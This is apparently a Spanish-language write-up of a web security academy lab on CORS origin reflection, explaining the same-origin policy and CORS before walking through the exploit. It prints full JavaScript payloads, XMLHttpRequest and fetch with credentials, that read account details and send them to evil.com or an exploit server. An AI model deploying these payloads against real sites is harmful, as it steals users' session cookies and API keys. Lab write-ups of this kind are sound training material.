





## Same-origin policy

La política de mismo origen es una especificación restrictiva de origen cruzado que limita la capacidad de un sitio web para interactuar con recursos fuera del dominio de origen. La política de mismo origen se definió hace muchos años en respuesta a interacciones entre dominios potencialmente maliciosas, como el robo de datos privados de un sitio web por parte de otro. Por lo general, permite que un dominio envíe solicitudes a otros dominios, pero no que acceda a las respuestas.

## Relaxation of the same-origin policy

La política de mismo origen es muy restrictiva y, en consecuencia, se han ideado diversos enfoques para eludir las restricciones. Muchos sitios web interactúan con subdominios o sitios de terceros de una manera que requiere un acceso completo entre orígenes. Es posible relajar de forma controlada la política de mismo origen utilizando el intercambio de recursos entre orígenes (CORS).

El protocolo de intercambio de recursos entre orígenes utiliza un conjunto de encabezados HTTP que definen los orígenes web de confianza y las propiedades asociadas, como si se permite el acceso autenticado. Estos se combinan en un intercambio de encabezados entre un navegador y el sitio web de origen cruzado al que intenta acceder.

## Vulnerabilities arising from CORS configuration issues

Muchos sitios web modernos utilizan CORS para permitir el acceso desde subdominios y terceros de confianza. Su implementación de CORS puede contener errores o ser demasiado permisiva para garantizar que todo funcione, lo que puede dar lugar a vulnerabilidades explotables.

## Lab: CORS vulnerability with basic origin reflection



```
/my-account?id=wiener
```



- `Access-Control-Allow-Origin: evil.com` → El servidor **confía explícitamente** en `evil.com` y permite que se lea la respuesta desde ese origen.
    
- `Access-Control-Allow-Credentials: true` → Permite enviar **cookies de sesión** junto con la solicitud (la cookie `session` en este caso).

Con esa configuración, cualquier atacante que controle evil.com puede:

- Forzar al navegador de la víctima a hacer peticiones autenticadas al sitio vulnerable.
- Leer la respuesta completa, incluyendo datos sensibles como apikey o sessions.
- Esto es similar a un CSRF + Data Theft, pero usando CORS para permitir que el atacante vea la respuesta.

```c
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;  // Esto envía la cookie de sesión automáticamente
    req.send();

    function reqListener() {
        // Envía la respuesta a tu servidor atacante
        location='https://evil.com/log?key='+this.responseText;
    };
</script>
```

- `req.withCredentials = true;`  
    Esto hace que el navegador **incluya la cookie `session`** cuando se hace la petición, como si fuera el usuario legítimo.
    
- `this.responseText`  
    Aquí se guarda la respuesta del endpoint vulnerable, por ejemplo:

```c
{
  "username": "wiener",
  "apikey": "gRNQd0wVY58GWKF2khnFTChbWkCPaiBI"
}
```

`location='/log?key='+this.responseText;`  
Esto redirige al navegador de la víctima a tu servidor (`evil.com/log`) para **robar los datos** capturados.

```c
Origin: evil.com
```

- El atacante crea una página maliciosa en `evil.com` con el payload.
- La víctima, que **ya está autenticada** en el sitio vulnerable, visita `evil.com`.
- El script en `evil.com` hace una petición `GET` a:

```c
https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails
```

enviando automáticamente la cookie de sesión de la víctima.
-  El servidor vulnerable **responde con los datos de la cuenta**, y por mala configuración de CORS: 
	- Permite que el navegador entregue esa información al script atacante.
- El script roba esa información y la envía al atacante.

Al enviar nuestro script a la victima, podemos ver que este nos devuelve la información del username, email, apikey, sessions 



Una vez obtenida esta apikey, podemos usar la session para ingresar como administrador





## Mas detalles

### Explicación del código

```c
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;  // Esto envía la cookie de sesión automáticamente
    req.send();

    function reqListener() {
        // Envía la respuesta a tu servidor atacante
        location='https://exploit-0aff00d2030b486480f49d1901760090.exploit-server.net/exploit/log?key='+this.responseText;
    };
</script>

```

Expliquemos a detalle el script:

Este script explota una mala configuración de **CORS** para robar datos sensibles del usuario autenticado.

1. Creación del objeto `XMLHttpRequest`

```c
var req = new XMLHttpRequest();
```

Este objeto permite a tu script hacer peticiones HTTP desde el navegador.

Es la base de AJAX, pero aquí lo usamos con fines maliciosos.


2. Definir la función que maneja la respuesta

```c
req.onload = reqListener;
```

`onload` se ejecuta cuando el servidor responde correctamente.

Asignamos como handler la función `reqListener`, que es la encargada de robar la información.

3. Configuración de la solicitud
```c
req.open('get','https://0afd00cf032a481e80459e9f00f00077.web-security-academy.net/accountDetails',true);
```

- `GET` → Método HTTP.
- URL → Es el endpoint vulnerable al que queremos acceder con la cookie de la víctima.
- `true` → La petición será asíncrona, no bloquea el navegador.

4. Envío de credenciales (cookies)

```c
req.withCredentials = true;
```

- Esta línea es CRÍTICA.

- Le dice al navegador:
	"Incluye las cookies asociadas al dominio objetivo cuando hagas la petición."
	
Sin esto, la petición no enviaría la cookie session de la víctima y no estaríamos autenticados.

En este caso, la cookie que se envía es:

```c
Cookie: session=L93tHDlRNpkzxbYDXZKhgEuUVA62JLcY
```

5. Envió de solicitud

```c
req.send();
```

6. Capturar y exfiltrar la respuesta

```c
function reqListener() {
    location='https://evil.com/log?key='+this.responseText;
};
```

- `this.responseText` → Contiene la respuesta **completa** que devolvió el servidor vulnerable.    
- Ejemplo de contenido:

```c
{
  "username": "wiener",
  "apikey": "gRNQd0wVY58GWKF2khnFTChbWkCPaiBI",
  "sessions": ["L93tHDlRNpkzxbYDXZKhgEuUVA62JLcY"]
}
```

Luego el script redirige el navegador a: `https://evil.com/log?key=<respuesta robada>`

### Otras Alternativas de explotación

```c
fetch('https://victim.com/api/secret', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    credentials: 'include',
    body: JSON.stringify({action: "steal"})
})
.then(response => response.text())
.then(data => {
    fetch('https://evil.com/log?stolen=' + encodeURIComponent(data));
});
```